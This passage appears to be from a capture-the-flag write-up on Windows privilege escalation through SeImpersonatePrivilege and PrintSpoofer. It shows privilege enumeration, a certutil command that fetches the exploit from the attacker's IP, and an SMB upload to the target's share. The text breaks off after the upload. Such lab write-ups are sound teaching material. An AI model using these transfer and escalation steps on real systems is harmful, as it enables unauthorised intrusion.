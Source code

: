 ## Privilege Escalation

### System Enumeration
Checked privileges:

```bash
c:\Users\Bob\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Key Finding**:
- `SeImpersonatePrivilege`: Enabled, indicating a potential privilege escalation vector.

Found a script to exploit this privilege: [PrintSpoofer.exe](https://github.com/dievus/printspoofer).

Set up a web server to transfer the script:

```bash
python3 -m http.server 8888
```

Attempted to download the script using `certutil.exe`, but it failed:

```bash
c:\inetpub\wwwroot>certutil -urlcache -f http://10.14.109.66:8888/PrintSpoofer.exe rev.exe
****  Online  ****
CertUtil: -URLCache command FAILED: 0x80072ee4 (WinHttp: 12004 ERROR_WINHTTP_INTERNAL_ERROR)
CertUtil: An internal error occurred in the Microsoft Windows HTTP Services
```

Instead, uploaded the script via SMB:

```bash
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ smbclient \\\\10.10.134.54\\nt4wrksv
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Sep 13 15:42:34 2025
  ..                                  D        0  Sat Sep 13 15:42:34 2025
  myservice.aspx                      A      460  Sat Sep 13 15:39:39 2025
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  rev.aspx                            A     3405  Sat Sep 13 15:42:34 2025

                7735807 blocks of size 4096. 5135281 blocks available
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (67.8 kb/s) (average 67.8 kb/s)
```
